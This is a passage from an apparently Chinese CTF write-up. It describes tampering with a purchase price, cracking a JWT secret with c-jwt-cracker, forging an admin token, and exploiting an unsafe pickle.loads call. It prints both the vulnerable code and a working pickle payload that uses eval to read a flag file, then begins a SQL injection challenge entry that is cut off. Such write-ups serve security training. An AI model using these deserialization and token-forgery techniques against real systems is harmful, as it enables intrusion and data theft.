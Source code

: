 什么是学写个多线程的脚本

购买的时候抓包可以看到折扣和价格，修改拿到lv6

给了一个目录``/b1g_m4mber``

提示该页面，只允许admin访问

这里涉及到对JWT的修改

首先利用工具爆破JWT的密钥

这里用的是c-jwt-cracker

得到``1Kun``

jwt.io生成对应token

拿到www.zip

admin.py里有段代码

```python
become = self.get_argument('become')
p = pickle.loads(urllib.unquote(become))
return self.render('form.html', res=p, member=1)
```

这里涉及到pickle,python中的序列化对象，可以与php中的相类比

这里我们可以写一个恶意类打包成pickle上传即可

```python
import pickle
import urllib

class Eval(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(Eval())
a = urllib.quote(a)
print a
```



> ``__reduce__(self)``
> 当定义扩展类型时（也就是使用Python的C语言API实现的类型），如果你想pickle它们，你必须告诉Python如何pickle它们。 ``__reduce__`` 被定义之后，当对象被Pickle时就会被调用。它要么返回一个代表全局名称的字符串，Pyhton会查找它并pickle，要么返回一个元组。这个元组包含2到5个元素，其中包括：一个可调用的对象，用于重建对象时调用；一个参数元素，供那个可调用对象使用；被传递给 ``__setstate__`` 的状态（可选）；一个产生被pickle的列表元素的迭代器（可选）；一个产生被pickle的字典元素的迭代器（可选）；

## 0x03 [CISCN2019 华北赛区 Day2 Web1]Hack World

```
#,--,...被过滤
```

但是1/1 0<1都有回显，说明是数字型的sql

拿源码分析
